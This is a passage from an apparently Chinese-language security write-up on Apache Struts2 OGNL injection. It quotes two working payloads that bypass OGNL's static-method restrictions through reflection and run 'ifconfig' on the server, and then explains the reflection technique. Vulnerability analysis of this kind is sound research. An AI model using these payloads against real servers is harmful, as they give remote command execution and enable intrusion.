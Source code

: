```
// 摘自https://www.freebuf.com/vuls/217482.html
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ifconfig%27%29.getInputStream%28%29%29%2C%23q%7D.action
// 第二种
？message=%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ifconfig').getInputStream()),#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#writer.println(#q),#writer.flush(),#writer.close()}
```

这里比较特殊的是这里对原有`#_memberAccess['allowStaticMethodAccess']=true`，改成了

```java
// 原来的方式
#_memberAccess['allowStaticMethodAccess']=true

// 通过反射机制来设置#_memberAccess['allowStaticMethodAccess']
#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),
#m.setAccessible(true),
#m.set(#_memberAccess,true)
```

为什么要通过这种方式来写入呢？

先来看OGNL是怎么setValue的

`ognl.OgnlRuntime#setFieldValue`

![image-20200514173311368](/images/talk_about_struts2/image-20200514173311368.png)

而此时这里我们要设置的`#_memberAccess['allowStaticMethodAccess']`

![image-20200514173631503](/images/talk_about_struts2/image-20200514173631503.png)
